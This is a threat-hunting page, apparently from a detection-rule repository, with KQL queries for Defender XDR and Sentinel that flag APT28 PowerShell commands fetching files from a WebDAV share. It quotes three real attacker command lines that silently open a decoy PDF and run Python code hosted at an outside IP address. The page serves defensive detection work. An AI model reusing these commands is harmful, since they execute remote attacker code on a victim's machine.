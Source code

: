 # APT28 WebDav Folder File Collection

## Query Information


#### Description
Hunt for external connections initiated by PowerShell to collect files from the webdav folder. This is used to download malicious files.

Example commandlines:
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hid -nop -c "[system.Diagnostics.Process]::Start('msedge','http://194.126.178.8/webdav/231130N581.pdf'); \\194.126.178.8@80\webdav\Python39\python.exe \\194.126.178.8@80\webdav\Python39\Client.py"
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hid -nop -c "[system.Diagnostics.Process]::Start('msedge','http://194.126.178.8/webdav/wody.pdf'); \\194.126.178.8@80\webdav\Python39\python.exe \\194.126.178.8@80\webdav\Python39\Client.py"
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hid -nop  -c "[system.Diagnostics.Process]::Start('msedge','http://194.126.178.8/webdav/StrategyUa.pdf'); \\194.126.178.8@80\webdav\Python39\python.exe 
```

#### Risk
APT28 has gotten access to one of your devices and executes malicious payloads.

#### References
- https://cert.gov.ua/article/6276894

## Defender XDR
```KQL
let IPRegex = '[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}';
DeviceProcessEvents
| where tolower(ProcessCommandLine) has_all ("start", "edge", "webdav")
| extend RemoteIP = extract(IPRegex, 0, ProcessCommandLine)
| where isnotempty(RemoteIP)
| where not(ipv4_is_private(RemoteIP))
| project-reorder DeviceName, RemoteIP, ProcessCommandLine, AccountUpn
```
## Sentinel
```KQL
let IPRegex = '[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}';
DeviceProcessEvents
| where tolower(ProcessCommandLine) has_all ("start", "edge", "webdav")
| extend RemoteIP = extract(IPRegex, 0, ProcessCommandLine)
| where isnotempty(RemoteIP)
| where not(ipv4_is_private(RemoteIP))
| project-reorder DeviceName, RemoteIP, ProcessCommandLine, AccountUpn
```
